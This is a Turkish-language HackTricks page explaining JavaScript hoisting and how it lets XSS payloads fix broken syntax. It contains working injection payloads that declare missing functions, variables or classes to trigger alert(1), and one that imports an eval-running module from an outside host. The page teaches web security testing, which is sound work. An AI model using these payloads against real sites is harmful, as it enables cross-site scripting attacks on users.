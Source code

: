 # JS Hoisting

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Temel Bilgiler

JavaScript dilinde, değişkenlerin, fonksiyonların, sınıfların veya importların bildirimlerinin, kod çalıştırılmadan önce kapsamlarının en üstüne kavramsal olarak yükseltildiği bir mekanizma olan **Hoisting** tanımlanmıştır. Bu süreç, JavaScript motoru tarafından otomatik olarak gerçekleştirilir ve motor, scripti birden fazla geçişte inceler.

İlk geçişte, motor kodu sözdizimi hatalarını kontrol etmek için ayrıştırır ve onu soyut sözdizim ağaçlarına dönüştürür. Bu aşama, belirli bildirimlerin yürütme bağlamının en üstüne taşındığı hoisting işlemini içerir. Ayrıştırma aşaması başarılı olursa, yani sözdizimi hatası yoksa, scriptin yürütülmesine devam edilir.

Anlamak önemlidir ki:

1. Scriptin yürütülmesi için sözdizimi hatalarından arınmış olması gerekir. Sözdizimi kurallarına kesinlikle uyulmalıdır.
2. Script içindeki kodun yerleşimi, hoisting nedeniyle yürütmeyi etkiler, ancak yürütülen kodun metinsel temsili farklı olabilir.

#### Hoisting Türleri

MDN'den alınan bilgilere dayanarak, JavaScript'te dört farklı hoisting türü vardır:

1. **Değer Hoisting**: Bir değişkenin değerinin, bildirim satırından önce kapsamı içinde kullanılmasına olanak tanır.
2. **Bildirim Hoisting**: Bir değişkenin, bildiriminden önce kapsamı içinde referans alınmasına izin verir, bu da `ReferenceError` oluşturmaz, ancak değişkenin değeri `undefined` olacaktır.
3. Bu tür, değişkenin gerçek bildirim satırından önceki bildirimine bağlı olarak kapsam içindeki davranışı değiştirir.
4. Bildirimin yan etkileri, içindeki diğer kodun değerlendirilmesinden önce gerçekleşir.

Detaylı olarak, fonksiyon bildirimleri tür 1 hoisting davranışı sergiler. `var` anahtar kelimesi tür 2 davranışını gösterir. `let`, `const` ve `class` gibi sözcüksel bildirimler tür 3 davranışını gösterir. Son olarak, `import` ifadeleri, hem tür 1 hem de tür 4 davranışlarıyla hoisted olan benzersiz bir yapıya sahiptir.

## Senaryolar

Bu nedenle, **Tanımsız bir nesne** kullanıldıktan sonra **JS kodu enjekte edebileceğiniz senaryolarınız varsa**, bunu **bildirerek sözdizimini düzeltebilirsiniz** (böylece kodunuz bir hata fırlatmak yerine çalıştırılır):
```javascript
// The function vulnerableFunction is not defined
vulnerableFunction('test', '<INJECTION>');
// You can define it in your injection to execute JS
//Payload1: param='-alert(1)-'')%3b+function+vulnerableFunction(a,b){return+1}%3b
'-alert(1)-''); function vulnerableFunction(a,b){return 1};

//Payload2: param=test')%3bfunction+vulnerableFunction(a,b){return+1}%3balert(1)
test'); function vulnerableFunction(a,b){ return 1 };alert(1)
```

```javascript
// If a variable is not defined, you could define it in the injection
// In the following example var a is not defined
function myFunction(a,b){
return 1
};
myFunction(a, '<INJECTION>')

//Payload: param=test')%3b+var+a+%3d+1%3b+alert(1)%3b
test'); var a = 1; alert(1);
```

```javascript
// If an undeclared class is used, you cannot declare it AFTER being used
var variable = new unexploitableClass();
<INJECTION>
// But you can actually declare it as a function, being able to fix the syntax with something like:
function unexploitableClass() {
return 1;
}
alert(1);
```

```javascript
// Properties are not hoisted
// So the following examples where the 'cookie' attribute doesn´t exist
// cannot be fixed if you can only inject after that code:
test.cookie('leo','INJECTION')
test['cookie','injection']
```
## Daha Fazla Senaryo
```javascript
// Undeclared var accessing to an undeclared method
x.y(1,INJECTION)
// You can inject
alert(1));function x(){}//
// And execute the allert with (the alert is resolved before it's detected that the "y" is undefined
x.y(1,alert(1));function x(){}//)
```

```javascript
// Undeclared var accessing 2 nested undeclared method
x.y.z(1,INJECTION)
// You can inject
");import {x} from "https://example.com/module.js"//
// It will be executed
x.y.z("alert(1)");import {x} from "https://example.com/module.js"//")


// The imported module:
// module.js
var x = {
y: {
z: function(param) {
eval(param);
}
}
};

export { x };
```

```javascript
// In this final scenario from https://joaxcar.com/blog/2023/12/13/having-some-fun-with-javascript-hoisting/
// It was injected the: let config;`-alert(1)`//`
// With the goal of making in the block the var config be empty, so the return is not executed
// And the same injection was replicated in the body URL to execute an alert

try {
if(config){
return;
}
// TODO handle missing config for: https://try-to-catch.glitch.me/"+`
let config;`-alert(1)`//`+"
} catch {
fetch("/error", {
method: "POST",
body: {
url:"https://try-to-catch.glitch.me/"+`
let config;`-alert(1)-`//`+""
}
})
}
```
## Referanslar

* [https://jlajara.gitlab.io/Javascript\_Hoisting\_in\_XSS\_Scenarios](https://jlajara.gitlab.io/Javascript\_Hoisting\_in\_XSS\_Scenarios)
* [https://developer.mozilla.org/en-US/docs/Glossary/Hoisting](https://developer.mozilla.org/en-US/docs/Glossary/Hoisting)
* [https://joaxcar.com/blog/2023/12/13/having-some-fun-with-javascript-hoisting/](https://joaxcar.com/blog/2023/12/13/having-some-fun-with-javascript-hoisting/)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
